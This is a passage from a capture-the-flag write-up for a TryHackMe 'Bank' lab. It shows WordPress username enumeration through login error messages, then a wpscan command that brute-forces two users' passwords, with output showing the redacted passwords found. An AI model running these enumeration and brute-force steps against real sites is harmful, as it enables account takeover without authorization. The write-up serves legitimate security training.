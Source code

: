 Hmm... Nothing.

However, **we also found 2 users: `patrick` and `manager`.**

**In WordPress, the default login page is in `/wp-login.php`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221228231415.png)

**Let's try to enter an invalid username and see what will happened:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221228231530.png)

`Unknown username`.

**How about a valid username?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221228231600.png)

`Error: The password you entered for the username patrick is incorrect.`

That being said, **we can enumerate all valid usernames via different responses.**

> If you're interested in enumerating valid usernames via different responses, you can read my PortSwigger Lab one of my [writeup](https://siunam321.github.io/ctf/portswigger-labs/Authentication/auth-1/).

Luckly, `wpscan` already did the job for us.

**Now `wpscan` also can help us to brute force user's password:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# wpscan --url http://bankctf.thm/wordpress/ -U 'patrick,manager' -P clean_robots.txt
[...]
[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - manager / {Redacted}                                                                    
[SUCCESS] - patrick / {Redacted}                                                                              
Trying patrick / Vamos! Time: 00:00:14 <=============                   > (148 / 344) 43.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: manager, Password: {Redacted}
 | Username: patrick, Password: {Redacted}
```

We found their passwords!

**Let's login to their account, and check who has administrator permission:**

- Patrick:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221228234140.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221228234155.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221228234240.png)
